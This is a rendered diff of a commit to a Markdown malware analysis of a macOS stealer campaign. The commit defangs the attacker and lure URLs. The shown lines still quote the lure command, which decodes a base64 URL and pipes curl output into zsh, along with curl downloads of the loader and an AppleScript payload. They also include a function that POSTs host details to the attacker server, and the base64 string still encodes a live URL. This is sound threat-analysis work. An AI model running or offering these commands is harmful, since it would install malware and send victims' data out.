

Before and after one commit to userHonest/docs, a Markdown page: malware/shub-stealer.md, 3 parts joined by grey strips. Shown at 95% size. Rendered like a GitHub page.

````diff
--- a/malware/shub-stealer.md
+++ b/malware/shub-stealer.md
@@ -49,13 +49,13 @@ osascript payload.applescript
 Original post referenced in the incident:
 
 ```text
-https://macdev.slab.com/public/posts/insta-%D1%96%D1%96-with-termina-%D1%96-g40n4aau?shr=6etwxr0gksp2ltctcqv7gom7
+hxxps://macdev[.]slab[.]com/public/posts/insta-%D1%96%D1%96-with-termina-%D1%96-g40n4aau?shr=6etwxr0gksp2ltctcqv7gom7
 ```
 
 The post presents the following command to the user:
 
 ```shell
-echo "Downloading Update: https://support.apple.com/downloads/xprotect-remediator-150.dmg" && \
+echo "Downloading Update: hxxps://support[.]apple[.]com/downloads/xprotect-remediator-150.dmg" && \
 curl -s $(echo "aHR0cHM6Ly9kYXRhc3BoZXJlLnVzLmNvbS9kZWJ1Zy9sb2FkZXIuc2g/YnVpbGQ9NDkyZjllNTgzNThlOGUyYmM5ZTA0MTRmYTA3N2UxOTc=" | base64 -d) | \
 zsh
 ```
@@ -65,7 +65,7 @@ Decoding the embedded base64 string reveals the real loader URL:
 ```shell
 echo "aHR0cHM6Ly9kYXRhc3BoZXJlLnVzLmNvbS9kZWJ1Zy9sb2FkZXIuc2g/YnVpbGQ9NDkyZjllNTgzNThlOGUyYmM5ZTA0MTRmYTA3N2UxOTc=" | \
 base64 -d
-https://datasphere.us.com/debug/loader.sh?build=492f9e58358e8e2bc9e0414fa077e197
+hxxps://datasphere[.]us[.]com/debug/loader.sh?build=492f9e58358e8e2bc9e0414fa077e197
 ```
 
 <br>
@@ -78,14 +78,14 @@ The key point is that `loader.sh` is a delivery mechanism.
 Captured URL:
 
 ```text
-https://datasphere.us.com/debug/loader.sh?build=492f9e58358e8e2bc9e0414fa077e197
+hxxps://dataspher[.]us[.]com/debug/loader.sh?build=492f9e58358e8e2bc9e0414fa077e197
 ```
 
 The initial artifact captured from the incident was a shell script named `loader.sh`. The script itself was not the final payload. It contained a base64-encoded, gzip-compressed blob that decoded into a second shell script.
 
 ```shell
 curl -L -o loader.sh \
-  "https://datasphere.us.com/debug/loader.sh?build=492f9e58358e8e2bc9e0414fa077e197"
+  "hxxps://datasphere[.]us[.]com/debug/loader.sh?build=492f9e58358e8e2bc9e0414fa077e197"
 ```
 
 ## Captured `loader.sh`
@@ -187,7 +187,7 @@ send_debug_event() {
       "$HOSTNAME" \
       "$OS_VER"
   )
-  curl -s -X POST "https://datasphere.us.com/api/debug/event" \
+  curl -s -X POST "hxxps://datasphere[.]us[.]com/api/debug/event" \
     -H "Content-Type: application/json" \
     -d "$JSON" \
     --max-time 5 >/dev/null 2>&1
@@ -224,7 +224,7 @@ exit 0
 
 ```shell
 curl -L -o payload.applescript \
-  "https://datasphere.us.com/debug/payload.applescript?build=492f9e58358e8e2bc9e0414fa077e197"
+  "hxxps://datasphere[.]us[.]com/debug/payload.applescript?build=492f9e58358e8e2bc9e0414fa077e197"
 ```
 
 ## Explanation of the Code
````
Also changed, not shown: other parts of malware/shub-stealer.md (+1 -1 lines).
